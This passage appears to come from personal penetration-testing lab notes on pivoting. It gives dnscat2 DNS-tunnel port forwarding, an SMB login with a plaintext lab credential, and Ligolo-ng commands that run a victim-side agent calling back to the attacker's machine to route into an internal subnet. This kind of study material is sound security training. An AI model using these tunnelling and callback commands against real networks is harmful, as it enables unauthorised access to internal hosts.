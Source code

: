 ```mermaid
		activate P
			P-->>H: P #8594; port 445
		deactivate P
	end
	Note over F: smbclient -p 4455 -L //127.0.0.1<br>-U hr_admin -- password=Welcome1234
	F->>F: F #8594; port 4455
	F->>P: (dns tunnel)<br>F #8594; P
	activate P
		P->>H: P #8594; port 445
	deactivate P
```

>[!code]- Create a port forward with dnscat2<br>`listen 127.0.0.1:4455 172.16.2.11:445`
>- Listen on loopback address port 4455 and forward any incoming traffic to 172.16.2.11 on port 445
### Ligolo-ng

>[!code]- [Download](https://github.com/nicocha30/ligolo-ng/releases) the agent and proxy (if required)
>Usually amd64 is required.
>- Proxy = attacking
>- Agent = victim (Windows / Linux)

>[!code]- Undo Ligolo-ng commands
>```powershell
># sudo ip tuntap add user kali mode tun ligolo
>sudo ip tuntap del mode tun dev ligolo
>
># sudo ip link set ligolo up
>sudo ip link set ligolo down
>
># sudo ip route add 192.168.2.0/24 dev ligolo
>sudo ip route del 192.168.2.0/24 dev ligolo
>```
#### Single pivot

```mermaid
sequenceDiagram
	participant K as KALI<br>10.10.14.3
	participant C as CONFLUENCE01<br>172.16.1.215
	participant P as PGDATABASE01<br>192.168.2.100
	Note over K: sudo ip tuntap add user kali mode tun ligolo
	Note over K: sudo ip link set ligolo up
	Note over K: ./proxy -selfcert
	Note over C: ./agent -connect 10.10.14.3:11601 -ignore-cert
	Note over K: >> session<br>>> 1
	Note over K: [new terminal]<br>sudo ip route add 192.168.2.0/24 dev ligolo<br><br>[check]<br>ip route list
	Note over K: >> start
	Note over K: nmap 192.168.2.100
	K->>C: K #8594; C
	activate C
	C->>P: C #8594; P
	deactivate C
```
#### Listeners (for reverse shells / file transfers)
